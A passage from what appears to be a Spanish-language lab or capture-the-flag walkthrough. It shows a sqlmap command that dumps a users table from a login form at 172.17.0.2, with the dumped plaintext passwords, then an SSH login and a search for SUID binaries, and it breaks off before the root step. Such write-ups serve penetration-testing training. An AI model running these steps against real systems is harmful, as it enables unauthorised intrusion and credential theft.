 | Columna  | Tipo          |
|----------|---------------|
| id       | int(11)       |
| username | varchar(255)  |
| password | varchar(255)  |

### d. Extracción de datos

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios --dump
```

| Parámetro   | Explicación                                                                                  |
|-------------|----------------------------------------------------------------------------------------------|
| `--dump`    | Ordena a `sqlmap` que **vuelque (extraiga y muestre)** todos los datos de la tabla especificada. |

| ID | Username | Password      |
|----|----------|---------------|
| 1  | paco     | $paco$123     |
| 2  | pepe     | P123pepe3456P |
| 3  | juan     | jjuuaann123   |

---

## 6. 🔐 Acceso vía SSH

```bash
ssh pepe@172.17.0.2
```

✅ Acceso conseguido con el usuario **pepe**

⚠️ No se encuentra el comando `sudo`.

---

## 7. 🔍 Búsqueda de Archivos con Permisos SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Resultados interesantes:**

- `/usr/bin/ls`
- `/usr/bin/grep`

---

## 8. 🕵️ Acceso a `/root` con SUID
